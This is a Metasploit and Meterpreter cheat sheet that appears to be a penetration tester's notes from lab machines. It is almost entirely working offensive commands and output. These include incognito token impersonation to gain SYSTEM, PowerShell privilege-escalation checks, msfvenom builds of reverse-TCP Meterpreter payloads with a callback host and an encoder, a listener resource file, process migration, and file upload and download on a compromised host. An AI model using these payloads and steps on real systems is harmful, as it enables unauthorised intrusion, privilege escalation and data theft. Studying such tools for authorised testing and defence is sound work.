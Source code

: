 ```yaml
---
title: Metasploit / Meterpreter
description: How to use metasploit and meterpreter with examples.
---
```


# Metasploit / Meterpreter

## Modules

List of modules :

- **espia :**
- [incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) : Allow you to impersonate user tokens.
- **lanattacks**
- **powershell :** Enable powershell (interactive shell, single command, ...).
- **python**
- **stdapi**
- **winpmem**
- **extapi**
- **kiwi**
- **peinjector**
- **priv**
- **sniffer**
- **unhook**

### Incognito

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
[...]
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Powershell

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
[...]
```

## Msfvenom

```bash
# Windows (EXE)
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.9.52.138 LPORT=9001 \
	-f exe -o shell.exe

# Windows (x86 EXE with encoder)
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai \
	LHOST=10.9.52.138 LPORT=9001 -f exe -o shell.exe

# Linux (ELF)
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.9.52.138 LPORT=9001 \
	-f elf -o shell.bin
```

## Ressource file

File `msf.rc` :

```
use exploit/multi/handler
set LHOST tun0
set LPORT 9001
set payload windows/x64/meterpreter_reverse_tcp
run
```

Command : `msfconsole -r msf.rc`

## Migrate on process

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions.

```
meterpreter > ps | grep services
Filtering on 'services'

Process List
============

 PID  PPID  Name          Arch  Session  User                 Path
 ---  ----  ----          ----  -------  ----                 ----
 668  580   services.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 996 to 668...
[*] Migration completed successfully.
```

## Search for files

```
meterpreter > search -f shell.exe
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\bruce\Desktop\shell.exe  73802         2021-12-11 12:20:17 +0100
```

## Upload / Download

```
meterpreter > download shell.exe
[*] Downloading: shell.exe -> /home/.../alfred/shell.exe
[*] Downloaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> /home/.../alfred/shell.exe
[*] download   : shell.exe -> /home/.../alfred/shell.exe

meterpreter > upload shell.exe 'c:\Users\bruce\Desktop\reverse.exe'
[*] uploading  : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] uploaded   : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
```
